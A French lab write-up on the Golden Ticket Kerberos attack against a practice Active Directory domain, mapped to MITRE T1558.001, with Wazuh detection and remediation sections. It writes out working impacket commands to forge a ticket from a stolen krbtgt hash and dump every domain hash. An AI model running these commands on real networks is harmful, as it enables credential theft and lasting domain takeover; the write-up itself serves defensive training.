


# ⚔️ Attaque 11 — Golden Ticket

| | |
|---|---|
| **Catégorie** | Persistence |
| **MITRE ATT&CK** | [T1558.001](https://attack.mitre.org/techniques/T1558/001/) |
| **Fiche théorique** | [`../../docs/04-privilege-escalation/18-golden-ticket.md`](../../docs/04-privilege-escalation/18-golden-ticket.md) |
| **Cible** | `north.sevenkingdoms.local` (DC02 / winterfell · 192.168.56.11) |
| **Compte attaquant** | `eviladmin` (**utilisateur inexistant, forgé**) |
| **Outil** | impacket — `ticketer.py` + `secretsdump.py -k` |
| **Statut détection Wazuh** | 🟡 Anomalie détectable (compte inexistant dans les logs) → Phase 6 |

---

## 1. 🧠 Description
Dans Kerberos, c'est le **KDC** (sur le DC) qui délivre les **TGT** (les "badges maîtres"), et chaque TGT est **signé avec le hash du compte spécial `krbtgt`**. Le `krbtgt` est le **sceau royal** 👑 du domaine.

**La faille :** avec le **hash de `krbtgt`** (volé au [DCSync](06-dcsync.md)), on peut **forger son propre TGT** pour **n'importe quel utilisateur — même inexistant**, avec les privilèges max, valable des années. Le DC l'accepte car le sceau est valide. → **Golden Ticket = persistance ultime** (valide tant que `krbtgt` n'est pas réinitialisé **2 fois**).

## 2. 🎯 Prérequis
- Le **hash NT de `krbtgt`** (`36e4a10f1c1e434b3726ff67dd815f9e`, volé au DCSync).
- Le **SID du domaine** (`S-1-5-21-3723572328-3115330327-3463884463`).

## 3. 💻 Exécution

### a) Forger le ticket
```bash
ticketer.py -nthash 36e4a10f1c1e434b3726ff67dd815f9e \
  -domain-sid S-1-5-21-3723572328-3115330327-3463884463 \
  -domain north.sevenkingdoms.local eviladmin
```
→ crée `eviladmin.ccache` (le Golden Ticket) pour un utilisateur **qui n'existe pas**.



### b) L'utiliser
```bash
echo "192.168.56.11 winterfell.north.sevenkingdoms.local north.sevenkingdoms.local" | sudo tee -a /etc/hosts
export KRB5CCNAME=eviladmin.ccache
secretsdump.py -k -no-pass -just-dc north.sevenkingdoms.local/eviladmin@winterfell.north.sevenkingdoms.local
```

## 4. 📤 Résultat
**`eviladmin` (un compte fantôme) dump TOUS les hashs du domaine** (Administrator, krbtgt, tous les utilisateurs) — uniquement parce que son ticket porte le sceau `krbtgt`. Contrôle total et **persistant**.



## 5. 🛡️ Détection dans Wazuh — 🟡 anomalie
**Recherche (Threat Hunting → Events) :**
```
data.win.eventdata.targetUserName:eviladmin
```
**Résultat : 4 hits.** Les logons de `eviladmin` **apparaissent bien** dans les logs (`4624`/`4634`). Deux **anomalies révélatrices** :
- 🚩 `targetUserName: eviladmin` = un **compte qui N'EXISTE PAS** dans l'AD apparaît dans des connexions réussies.
- 🚩 `targetUserSid: ...-**500**` (RID 500 = Administrator) alors que le nom est `eviladmin` → **incohérence nom / SID**.


## 6. 🎓 Analyse & leçon
> Le Golden Ticket est **cryptographiquement valide** (le DC ne peut pas savoir qu'il est forgé), donc **aucune règle de signature classique ne le détecte**. Mais il laisse des **anomalies** : un utilisateur inexistant, une incohérence nom/SID, une durée de vie de ticket anormale.

👉 Détecter ce genre d'attaque demande une **détection comportementale / d'anomalies** — précisément l'objet de la **Phase 6 (agent IA)** 🤖. Le Golden Ticket est **l'exemple parfait** justifiant une détection par IA plutôt que par règles fixes.

## 7. 🔧 Remédiation
- **Réinitialiser le mot de passe de `krbtgt` DEUX fois** (invalide tous les golden tickets existants) — la seule vraie parade.
- Protéger le hash `krbtgt` en amont (empêcher DCSync / le vol de NTDS).
- Surveiller les **comptes inexistants** et les **incohérences nom/SID** dans les logons (détection comportementale, Phase 6).

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
